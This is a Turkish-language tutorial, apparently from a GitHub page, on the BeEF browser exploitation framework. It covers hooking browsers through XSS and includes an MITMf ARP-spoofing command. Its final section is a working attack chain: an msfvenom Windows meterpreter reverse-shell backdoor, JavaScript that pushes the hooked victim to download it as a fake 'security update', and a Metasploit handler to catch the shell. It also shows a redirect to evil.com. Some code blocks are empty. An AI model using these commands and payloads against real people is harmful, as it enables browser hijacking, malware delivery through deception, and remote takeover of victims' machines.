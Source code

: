 BeEF (Browser Exploitation Framework) Nedir?
BeEF (Browser Exploitation Framework), tarayıcıları hedef alan güvenlik açıklarını test etmek için kullanılan bir sızma testi aracıdır.

📌 Ne İşe Yarar?
🔹 XSS açıkları üzerinden tarayıcıyı ele geçirmek
🔹 Hedefin IP, cihaz bilgileri, ağ bağlantıları gibi bilgilerini toplamak
🔹 Tarayıcı üzerinden komut çalıştırarak saldırılar simüle etmek
🔹 Pentest ve güvenlik araştırmalarında kullanılır

📌 Nasıl Çalışır?
1️⃣ Hedefin Tarayıcısını Hook'lama
XSS açığı bulunan bir siteye BeEF JavaScript payload’u enjekte edilir.
Kullanıcı bu sayfaya girince tarayıcısı BeEF’e bağlanır.
2️⃣ Tarayıcı Üzerinden Bilgi Toplama ve Exploit Çalıştırma
Kullanıcının IP adresi, işletim sistemi, tarayıcı bilgileri alınır.
Keylogger, sayfa değiştirme, phishing saldırıları gibi testler yapılabilir.
Hedefi Oltaya Takmak
2️⃣ Hedef Tarayıcıyı "Hook" Et (Bağlamak)
✅ Hedefin tarayıcısını BeEF’e bağlamak için XSS veya açık bir site kullanılır.
✅ BeEF'in hook.js kodunu hedefte çalıştırmalısın:
html

🔹 Eğer bir web sitesinde XSS açığı bulduysan, yukarıdaki kodu payload olarak enjekte edebilirsin.
🔹 Hedef bu sayfayı açtığında tarayıcısı BeEF’e bağlanır.

3️⃣ Hedef Tarayıcıya Komut Gönderme
✅ BeEF panelinden hooklanan (bağlanan) tarayıcıyı seç ve aşağıdaki işlemleri yapabilirsin:
🔹 Bilgi Toplama:
Tarayıcı ve işletim sistemi bilgilerini al
Hedefin IP adresini öğren
🔹 Tarayıcı Üzerinde Saldırı Simülasyonu:
Alert pop-up çıkartma:
javascript
alert("Tarayıcınız ele geçirildi!");
Keylogger çalıştırma
Phishing sayfası açma
Sayfa yönlendirme (Redirect)
JavaScript Enjeksiyonu
MitM Saldırısı
#python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --inject --js-url 
gateway=modem ip
target=hedef ip
(bettercap daha güncel bir araçtır. Genelde artık bettercap kullanılır.)
BeEF Kontrol Paneli – Kısaca Özet
BeEF'in kontrol paneli, bağlanan tarayıcıları yönetmek ve saldırı simülasyonları yapmak için kullanılan bir arayüzdür. http://127.0.0.1:3000/ui/panel adresinden erişilir.

📌 BeEF Kontrol Panelinin Bölümleri
1️⃣ Online Tarayıcılar (Hooked Browsers)
✅ Bağlanan (hook edilen) tarayıcıları listeler.
✅ Hedefin IP adresi, işletim sistemi, tarayıcı türü ve versiyonu gösterilir.

2️⃣ Modüller (Commands)
✅ Hedef tarayıcıda çalıştırılabilecek exploit ve komutları içerir.
✅ Kullanılabilecek bazı modüller:
Alert Box Gönderme (alert("Hacked!"))
Sayfa Yönlendirme (window.location="http://evil.com")
Keylogger (Klavye Dinleme)
Sahte Login Sayfası Gösterme (Phishing)

3️⃣ Loglar ve Konsol (Logs & Console)
✅ Çalıştırılan komutların ve hedeften gelen cevapların kaydedildiği bölümdür.
✅ JavaScript kodları girerek hedef tarayıcıda testler yapabilirsin.

4️⃣ Ağ Saldırıları (Network Attacks)
✅ Hedef tarayıcı yerel ağda (LAN) çalışıyorsa, yerel cihazları ve portları taramak için kullanılabilir.
4️⃣ Hedef Tarayıcıdan Çıkma ve Kapanış
✅ Hedef tarayıcı sayfayı kapatırsa bağlantı kopar.
✅ BeEF’i durdurmak için CTRL + C yaparak terminalden kapatabilirsin.

📌 Özet
🚀 BeEF, tarayıcı güvenlik açıklarını test etmek için kullanılır.
✅ XSS açığını kullanarak bir tarayıcıyı "hook" edersin.
✅ Bağlanan tarayıcıda bilgi toplama, yönlendirme ve phishing testleri yapabilirsin.
BeEF ile Backdoor Gönderme (Kısaca)
BeEF, hedefin tarayıcısını "hook" ettikten sonra çeşitli saldırılar simüle edebilir. Bunlardan biri de bir backdoor dosyasını hedefe iletmek ve çalıştırmasını sağlamaktır.

1️⃣ BeEF ile Hedefi "Hook" Et
Öncelikle hedefin tarayıcısını BeEF’e bağlamalısın. Bunun için bir XSS açığı veya hedefin ziyaret ettiği bir sayfaya aşağıdaki hook.js kodunu ekleyebilirsin:
html

🔹 Hedef bu sayfayı açınca tarayıcısı BeEF’e bağlanır.

2️⃣ Backdoor Payload Hazırla (Metasploit ile)
Metasploit kullanarak bir Windows reverse shell backdoor oluştur:
bash
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=YOUR\_IP LPORT=4444 -f exe > backdoor.exe
🔹 LHOST: Kendi IP adresin
🔹 LPORT: Dinleyeceğin port

3️⃣ BeEF ile Hedefe Backdoor Gönderme
BeEF kontrol paneline gir (http://127.0.0.1:3000/ui/panel) ve "Hooked Browsers" sekmesinden hedefi seç.
✅ Saldırı Modüllerinden "Create Invisible iFrame" Kullan:
Bunu kullanarak arka planda zararlı dosyanın indirildiği bir iFrame oluşturabilirsin:
javascript
window.location.href = "http://YOUR\_IP/backdoor.exe";
✅ Fake Güncelleme Mesajı ile İndirtme:
Hedefe sahte bir mesaj gösterip backdoor’u indirmesini sağlamak için:
javascript
alert("Güvenlik güncellemesi gerekli! Güncellemeyi indirmek için Tamam'a tıklayın.");
window.location.href = "http://YOUR\_IP/backdoor.exe";
✅ HTML 5 Download API Kullanımı:
javascript
var link = document.createElement('a');
link.href = 'http://YOUR\_IP/backdoor.exe';
link.download = 'update.exe';
document.body.appendChild(link);
link.click();
🔹 Bu yöntem, dosyanın tarayıcı tarafından otomatik indirilmesini sağlar.

4️⃣ Backdoor’u Dinleme ve Yönetme
Hedef backdoor.exe dosyasını çalıştırırsa, Metasploit ile bağlantıyı dinle:
bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse\_tcp
set LHOST YOUR\_IP
set LPORT 4444
exploit
📌 Başarıyla bağlantı kurulduğunda hedef sistem üzerinde kontrol sağlarsın.



